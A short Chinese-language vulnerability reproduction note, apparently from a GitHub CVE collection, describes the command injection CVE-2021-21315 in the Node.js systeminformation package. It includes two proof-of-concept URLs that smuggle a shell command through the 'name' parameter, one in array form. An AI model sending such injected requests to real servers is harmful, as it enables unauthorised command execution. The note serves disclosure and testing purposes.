 # Node.js命令注入漏洞（CVE-2021-21315）


Node.js-systeminformation是用于获取各种系统信息的Node.JS模块，它包含多种轻量级功能，可以检索详细的硬件和系统相关信息。自发布至今，systeminformation软件包下载次数近3400万。2021年02月24日，npm团队发布安全公告，Node.js库中的systeminformation软件包中存在一个命令注入漏洞（CVE-2021-21315），其CVSSv3评分为7.8。攻击者可以通过在未经过滤的参数中注入Payload来执行系统命令。目前该漏洞已经在5.3.1版本中修复。

**复现步骤：**

* 1.Linux服务器环境上运行应用程序
* 2.向site.com/api/getServices?name=nginx 发送GET请求
* 3.发送

PoC：https://github.com/ForbiddenProgrammer/CVE-2021-21315-PoC

```
yoursite.com/api/getServices?name=$(echo -e 'Sekurak' > pwn.txt)
yoursite.com/api/getServices?name[]=$(echo -e 'Sekurak' > pwn.txt)
```

**ref：**

* https://www.venustech.com.cn/new_type/aqtg/20210225/22407.html
* https://github.com/ForbiddenProgrammer/CVE-2021-21315-PoC